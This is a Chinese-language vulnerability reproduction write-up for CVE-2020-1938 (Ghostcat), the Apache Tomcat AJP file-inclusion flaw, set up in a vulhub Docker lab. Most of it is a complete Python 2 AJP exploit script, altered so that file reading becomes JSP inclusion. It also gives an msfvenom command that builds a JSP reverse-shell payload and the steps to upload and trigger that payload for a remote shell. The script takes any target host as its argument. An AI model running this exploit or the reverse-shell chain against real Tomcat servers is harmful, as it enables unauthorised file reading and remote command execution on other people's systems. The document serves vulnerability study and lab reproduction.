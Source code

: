 
# [](#cve-2020-1938-apache-tomcat-ajp-%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)CVE-2020-1938 Apache Tomcat AJP 文件包含漏洞复现

## [](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)漏洞复现

### [](#%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)环境搭建

docker-compose.yml

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```yaml<br>version: '2'<br>services:<br> tomcat:<br>   image: vulhub/tomcat:9.0.30<br>   ports:<br>    - "8080:8080"<br>    - "8009:8009"<br>``` |

启动镜像：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker-compose up -d<br>``` |

### [](#poc)POC

来源：[https://github.com/nibiwodong/CNVD-2020-10487-Tomcat-ajp-POC](https://github.com/nibiwodong/CNVD-2020-10487-Tomcat-ajp-POC)

原作者的 poc 只能读文件，将原作者 poc 的 `self.req_uri = req_uri` 改为 `self.req_uri = req_uri + ".jsp"` 即可文件包含，从而反弹 shell。

|     |     |     |
| --- | --- | --- |
| ```bash<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>114<br>115<br>116<br>117<br>118<br>119<br>120<br>121<br>122<br>123<br>124<br>125<br>126<br>127<br>128<br>129<br>130<br>131<br>132<br>133<br>134<br>135<br>136<br>137<br>138<br>139<br>140<br>141<br>142<br>143<br>144<br>145<br>146<br>147<br>148<br>149<br>150<br>151<br>152<br>153<br>154<br>155<br>156<br>157<br>158<br>159<br>160<br>161<br>162<br>163<br>164<br>165<br>166<br>167<br>168<br>169<br>170<br>171<br>172<br>173<br>174<br>175<br>176<br>177<br>178<br>179<br>180<br>181<br>182<br>183<br>184<br>185<br>186<br>187<br>188<br>189<br>190<br>191<br>192<br>193<br>194<br>195<br>196<br>197<br>198<br>199<br>200<br>201<br>202<br>203<br>204<br>205<br>206<br>207<br>208<br>209<br>210<br>211<br>212<br>213<br>214<br>215<br>216<br>217<br>218<br>219<br>220<br>221<br>222<br>223<br>224<br>225<br>226<br>227<br>228<br>229<br>230<br>231<br>232<br>233<br>234<br>235<br>236<br>237<br>238<br>239<br>240<br>241<br>242<br>243<br>244<br>245<br>246<br>247<br>248<br>249<br>250<br>251<br>252<br>253<br>254<br>255<br>256<br>257<br>258<br>259<br>260<br>261<br>262<br>263<br>264<br>265<br>266<br>267<br>268<br>269<br>270<br>271<br>272<br>273<br>274<br>275<br>276<br>277<br>278<br>279<br>280<br>281<br>282<br>283<br>284<br>285<br>286<br>287<br>288<br>289<br>290<br>291<br>292<br>293<br>294<br>295<br>296<br>297<br>298<br>299<br>300<br>301<br>302<br>303<br>``` | ```python<br>#!/usr/bin/env python<br>import struct<br><br># Some references:<br># https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html<br>def pack_string(s):<br>	if s is None:<br>		return struct.pack(">h", -1)<br>	l = len(s)<br>	return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)<br>def unpack(stream, fmt):<br>	size = struct.calcsize(fmt)<br>	buf = stream.read(size)<br>	return struct.unpack(fmt, buf)<br>def unpack_string(stream):<br>	size, = unpack(stream, ">h")<br>	if size == -1: # null string<br>		return None<br>	res, = unpack(stream, "%ds" % size)<br>	stream.read(1) # \0<br>	return res<br>class NotFoundException(Exception):<br>	pass<br>class AjpBodyRequest(object):<br>	# server == web server, container == servlet<br>	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)<br>	MAX_REQUEST_LENGTH = 8186<br>	def __init__(self, data_stream, data_len, data_direction=None):<br>		self.data_stream = data_stream<br>		self.data_len = data_len<br>		self.data_direction = data_direction<br>	def serialize(self):<br>		data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)<br>		if len(data) == 0:<br>			return struct.pack(">bbH", 0x12, 0x34, 0x00)<br>		else:<br>			res = struct.pack(">H", len(data))<br>			res += data<br>		if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:<br>			header = struct.pack(">bbH", 0x12, 0x34, len(res))<br>		else:<br>			header = struct.pack(">bbH", 0x41, 0x42, len(res))<br>		return header + res<br>	def send_and_receive(self, socket, stream):<br>		while True:<br>			data = self.serialize()<br>			socket.send(data)<br>			r = AjpResponse.receive(stream)<br>			while r.prefix_code != AjpResponse.GET_BODY_CHUNK and r.prefix_code != AjpResponse.SEND_HEADERS:<br>				r = AjpResponse.receive(stream)<br><br>			if r.prefix_code == AjpResponse.SEND_HEADERS or len(data) == 4:<br>				break<br>class AjpForwardRequest(object):<br>	_, OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE, PROPFIND, PROPPATCH, MKCOL, COPY, MOVE, LOCK, UNLOCK, ACL, REPORT, VERSION_CONTROL, CHECKIN, CHECKOUT, UNCHECKOUT, SEARCH, MKWORKSPACE, UPDATE, LABEL, MERGE, BASELINE_CONTROL, MKACTIVITY = range(28)<br>	REQUEST_METHODS = {'GET': GET, 'POST': POST, 'HEAD': HEAD, 'OPTIONS': OPTIONS, 'PUT': PUT, 'DELETE': DELETE, 'TRACE': TRACE}<br>	# server == web server, container == servlet<br>	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)<br>	COMMON_HEADERS = ["SC_REQ_ACCEPT",<br>		"SC_REQ_ACCEPT_CHARSET", "SC_REQ_ACCEPT_ENCODING", "SC_REQ_ACCEPT_LANGUAGE", "SC_REQ_AUTHORIZATION",<br>		"SC_REQ_CONNECTION", "SC_REQ_CONTENT_TYPE", "SC_REQ_CONTENT_LENGTH", "SC_REQ_COOKIE", "SC_REQ_COOKIE2",<br>		"SC_REQ_HOST", "SC_REQ_PRAGMA", "SC_REQ_REFERER", "SC_REQ_USER_AGENT"<br>	]<br>	ATTRIBUTES = ["context", "servlet_path", "remote_user", "auth_type", "query_string", "route", "ssl_cert", "ssl_cipher", "ssl_session", "req_attribute", "ssl_key_size", "secret", "stored_method"]<br>	def __init__(self, data_direction=None):<br>		self.prefix_code = 0x02<br>		self.method = None<br>		self.protocol = None<br>		self.req_uri = None<br>		self.remote_addr = None<br>		self.remote_host = None<br>		self.server_name = None<br>		self.server_port = None<br>		self.is_ssl = None<br>		self.num_headers = None<br>		self.request_headers = None<br>		self.attributes = None<br>		self.data_direction = data_direction<br>	def pack_headers(self):<br>		self.num_headers = len(self.request_headers)<br>		res = ""<br>		res = struct.pack(">h", self.num_headers)<br>		for h_name in self.request_headers:<br>			if h_name.startswith("SC_REQ"):<br>				code = AjpForwardRequest.COMMON_HEADERS.index(h_name) + 1<br>				res += struct.pack("BB", 0xA0, code)<br>			else:<br>				res += pack_string(h_name)<br><br>			res += pack_string(self.request_headers[h_name])<br>		return res<br><br>	def pack_attributes(self):<br>		res = b""<br>		for attr in self.attributes:<br>			a_name = attr['name']<br>			code = AjpForwardRequest.ATTRIBUTES.index(a_name) + 1<br>			res += struct.pack("b", code)<br>			if a_name == "req_attribute":<br>				aa_name, a_value = attr['value']<br>				res += pack_string(aa_name)<br>				res += pack_string(a_value)<br>			else:<br>				res += pack_string(attr['value'])<br>		res += struct.pack("B", 0xFF)<br>		return res<br>	def serialize(self):<br>		res = ""<br>		res = struct.pack("bb", self.prefix_code, self.method)<br>		res += pack_string(self.protocol)<br>		res += pack_string(self.req_uri)<br>		res += pack_string(self.remote_addr)<br>		res += pack_string(self.remote_host)<br>		res += pack_string(self.server_name)<br>		res += struct.pack(">h", self.server_port)<br>		res += struct.pack("?", self.is_ssl)<br>		res += self.pack_headers()<br>		res += self.pack_attributes()<br>		if self.data_direction == AjpForwardRequest.SERVER_TO_CONTAINER:<br>			header = struct.pack(">bbh", 0x12, 0x34, len(res))<br>		else:<br>			header = struct.pack(">bbh", 0x41, 0x42, len(res))<br>		return header + res<br>	def parse(self, raw_packet):<br>		stream = StringIO(raw_packet)<br>		self.magic1, self.magic2, data_len = unpack(stream, "bbH")<br>		self.prefix_code, self.method = unpack(stream, "bb")<br>		self.protocol = unpack_string(stream)<br>		self.req_uri = unpack_string(stream)<br>		self.remote_addr = unpack_string(stream)<br>		self.remote_host = unpack_string(stream)<br>		self.server_name = unpack_string(stream)<br>		self.server_port = unpack(stream, ">h")<br>		self.is_ssl = unpack(stream, "?")<br>		self.num_headers, = unpack(stream, ">H")<br>		self.request_headers = {}<br>		for i in range(self.num_headers):<br>			code, = unpack(stream, ">H")<br>			if code > 0xA000:<br>				h_name = AjpForwardRequest.COMMON_HEADERS[code - 0xA001]<br>			else:<br>				h_name = unpack(stream, "%ds" % code)<br>				stream.read(1) # \0<br>			h_value = unpack_string(stream)<br>			self.request_headers[h_name] = h_value<br>	def send_and_receive(self, socket, stream, save_cookies=False):<br>		res = []<br>		i = socket.sendall(self.serialize())<br>		if self.method == AjpForwardRequest.POST:<br>			return res<br><br>		r = AjpResponse.receive(stream)<br>		assert r.prefix_code == AjpResponse.SEND_HEADERS<br>		res.append(r)<br>		if save_cookies and 'Set-Cookie' in r.response_headers:<br>			self.headers['SC_REQ_COOKIE'] = r.response_headers['Set-Cookie']<br><br>		# read body chunks and end response packets<br>		while True:<br>			r = AjpResponse.receive(stream)<br>			res.append(r)<br>			if r.prefix_code == AjpResponse.END_RESPONSE:<br>				break<br>			elif r.prefix_code == AjpResponse.SEND_BODY_CHUNK:<br>				continue<br>			else:<br>				raise NotImplementedError<br>				break<br><br>		return res<br><br>class AjpResponse(object):<br>	_,_,_,SEND_BODY_CHUNK, SEND_HEADERS, END_RESPONSE, GET_BODY_CHUNK = range(7)<br>	COMMON_SEND_HEADERS = [<br>			"Content-Type", "Content-Language", "Content-Length", "Date", "Last-Modified",<br>			"Location", "Set-Cookie", "Set-Cookie2", "Servlet-Engine", "Status", "WWW-Authenticate"<br>			]<br>	def parse(self, stream):<br>		# read headers<br>		self.magic, self.data_length, self.prefix_code = unpack(stream, ">HHb")<br><br>		if self.prefix_code == AjpResponse.SEND_HEADERS:<br>			self.parse_send_headers(stream)<br>		elif self.prefix_code == AjpResponse.SEND_BODY_CHUNK:<br>			self.parse_send_body_chunk(stream)<br>		elif self.prefix_code == AjpResponse.END_RESPONSE:<br>			self.parse_end_response(stream)<br>		elif self.prefix_code == AjpResponse.GET_BODY_CHUNK:<br>			self.parse_get_body_chunk(stream)<br>		else:<br>			raise NotImplementedError<br><br>	def parse_send_headers(self, stream):<br>		self.http_status_code, = unpack(stream, ">H")<br>		self.http_status_msg = unpack_string(stream)<br>		self.num_headers, = unpack(stream, ">H")<br>		self.response_headers = {}<br>		for i in range(self.num_headers):<br>			code, = unpack(stream, ">H")<br>			if code <= 0xA000: # custom header<br>				h_name, = unpack(stream, "%ds" % code)<br>				stream.read(1) # \0<br>				h_value = unpack_string(stream)<br>			else:<br>				h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]<br>				h_value = unpack_string(stream)<br>			self.response_headers[h_name] = h_value<br><br>	def parse_send_body_chunk(self, stream):<br>		self.data_length, = unpack(stream, ">H")<br>		self.data = stream.read(self.data_length+1)<br><br>	def parse_end_response(self, stream):<br>		self.reuse, = unpack(stream, "b")<br><br>	def parse_get_body_chunk(self, stream):<br>		rlen, = unpack(stream, ">H")<br>		return rlen<br><br>	@staticmethod<br>	def receive(stream):<br>		r = AjpResponse()<br>		r.parse(stream)<br>		return r<br><br>import socket<br><br>def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):<br>	fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)<br>	fr.method = method<br>	fr.protocol = "HTTP/1.1"<br>	fr.req_uri = req_uri<br>	fr.remote_addr = target_host<br>	fr.remote_host = None<br>	fr.server_name = target_host<br>	fr.server_port = 80<br>	fr.request_headers = {<br>		'SC_REQ_ACCEPT': 'text/html',<br>		'SC_REQ_CONNECTION': 'keep-alive',<br>		'SC_REQ_CONTENT_LENGTH': '0',<br>		'SC_REQ_HOST': target_host,<br>		'SC_REQ_USER_AGENT': 'Mozilla',<br>		'Accept-Encoding': 'gzip, deflate, sdch',<br>		'Accept-Language': 'en-US,en;q=0.5',<br>		'Upgrade-Insecure-Requests': '1',<br>		'Cache-Control': 'max-age=0'<br>	}<br>	fr.is_ssl = False<br>	fr.attributes = []<br>	return fr<br><br>class Tomcat(object):<br>	def __init__(self, target_host, target_port):<br>		self.target_host = target_host<br>		self.target_port = target_port<br><br>		self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>		self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)<br>		self.socket.connect((target_host, target_port))<br>		self.stream = self.socket.makefile("rb", bufsize=0)<br><br>	def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):<br>    # 文件读取<br>		# self.req_uri = req_uri <br>    # 文件包含<br>		self.req_uri = req_uri + ".jsp"<br>		self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))<br>		print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))<br>		if user is not None and password is not None:<br>			self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')<br>		for h in headers:<br>			self.forward_request.request_headers[h] = headers[h]<br>		for a in attributes:<br>			self.forward_request.attributes.append(a)<br>		responses = self.forward_request.send_and_receive(self.socket, self.stream)<br>		if len(responses) == 0:<br>			return None, None<br>		snd_hdrs_res = responses[0]<br>		data_res = responses[1:-1]<br>		if len(data_res) == 0:<br>			print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)<br>		return snd_hdrs_res, data_res<br><br>'''<br>javax.servlet.include.request_uri<br>javax.servlet.include.path_info<br>javax.servlet.include.servlet_path<br>'''<br><br>import argparse<br>parser = argparse.ArgumentParser()<br>parser.add_argument("target", type=str, help="Hostname or IP to attack")<br>parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")<br>parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")<br>args = parser.parse_args()<br>t = Tomcat(args.target, args.port)<br>_,data = t.perform_request('/asdf',attributes=[<br>    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},<br>    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},<br>    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},<br>    ])<br>print('----------------------------')<br>print("".join([d.data for d in data]))<br>``` |

执行 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```python<br>python2 poc.py 127.0.0.1 -p 8009 -f "WEB-INF/web.xml"<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221123454.png-water_print](assets/1699409606-a092193022d6a4c78cc0358d3acecb93 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221123454.png-water_print")

### [](#%E5%8F%8D%E5%BC%B9-shell)反弹 shell

#### [](#msfvenom-%E7%94%9F%E6%88%90-webshell)msfvenom 生成 webshell

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4444 > shell.txt<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124816.png-water_print](assets/1699409606-75ddf2fcde863e0dbc74b75585def444.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124816.png-water_print")

#### [](#%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6)上传文件

由于该漏洞要配合 `文件上传` ，再进行文件包含，进而执行命令：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br># 查看容器 ID<br>docker ps -a<br>docker cp shell.txt 容器ID:/usr/local/tomcat/webapps/ROOT/shell.txt<br>``` |

查看文件：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221123848.png-water_print](assets/1699409606-a40c1996f8799c47ac407acabc7646ff.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221123848.png-water_print")

#### [](#%E5%90%AF%E5%8A%A8-msf-%E7%9B%91%E5%90%AC)启动 msf 监听

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124024.png-water_print](assets/1699409606-1bc7c1b10d3ecab0743d50d14ec59849.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124024.png-water_print")

#### [](#%E6%89%A7%E8%A1%8C%E4%BF%AE%E6%94%B9%E5%90%8E%E7%9A%84-exp)执行`修改后`的 exp：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>python2 poc.py 127.0.0.1 -p 8009 -f "/shell.txt"<br>``` |

`注意`：本人在测试时，使用一般的传参数的 webshell 时无法正确解析，可以进一步修改脚本解决。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124418.png-water_print](assets/1699409606-6c0bf99807ebbfe72a9dcbf858072a64.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124418.png-water_print")

成功弹回 shell

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124847.png-water_print](assets/1699409606-72e2c704ebfa718eab21a0e65bbad5bd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200221124847.png-water_print")
